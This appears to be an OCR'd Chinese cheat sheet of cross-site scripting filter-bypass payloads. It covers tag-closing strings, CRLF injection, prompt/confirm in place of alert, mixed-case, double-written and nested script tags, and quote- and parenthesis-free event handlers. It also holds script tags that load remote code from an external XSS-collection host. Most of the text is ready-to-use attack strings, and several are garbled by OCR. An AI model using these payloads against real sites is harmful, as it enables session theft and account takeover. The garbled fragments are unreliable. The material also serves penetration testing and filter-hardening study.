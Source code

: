   
**闭合大部分的标签**  
```
*/–>'”);>iframe>script>style>title>textarea><a>aa>#*/–>'”);>iframe>script>style>title>textarea><iframe >
```  
  
  
**宽字符闭合**  
  
*/–>%cf”%d5′>frame>script>style>title>textarea>  
  
**回车换行**  
  
很多时候，回车换行能绕过很多的限制  
  
%0D%0A  
  
**标签检测绕过**  
当页面过滤 alert 这个函数时，因为这个函数会弹窗，不仅很多程序会对他进行  
  
过滤，而且很多 waf 都会对其进行拦截。所以不存在 alert 即可<script>prompt(/xss/);</script>  
  
<script>confirm(1);</script>  
  
<script src=http://www.xss123.com/eciAKj?1623635663></script>  
  
或者：  
  
fuzz各种标签，检查是否存在拦截或者过滤  
  
**针对黑名单**  
  
大小写混写<ScRipt>ALeRt(“XSS”);sCRipT>  
  
双写绕过<scscriptript>alert(1)</scriscriptpt>  
  
嵌套绕过ript>alert(/xss/);script>alert(/xss/);script>  
  
空字符绕过，09ipt>ALeRt(/XSS/);sCRipT>  
  
特殊字符黑名单，采用其他字符代替，如：  
  
限制 ” 符号，输入<img src=1 onclick=alert(‘1’)>  
  
限制 ‘ 符号，输入(开启gpc或者addcslashes()过滤特殊字符)  
```
<img src=1 onclick=alert(/1/)>、
<img src=1 onclick=”alert(1)”>
<img src=1 onclick=alert(xss)>
<script src=http://www.xss123.com/JGdbsl?1623638390></script>
```  
  
  
限制 () 符号，输入<img src=1 onclick=”alert `’1’`”>  
  
限制 () ‘ ” 符号，输入<img src=1 onclick=alert `1`>  
  
或使用实体编码绕过。  
  
绕过字符长度限制  
  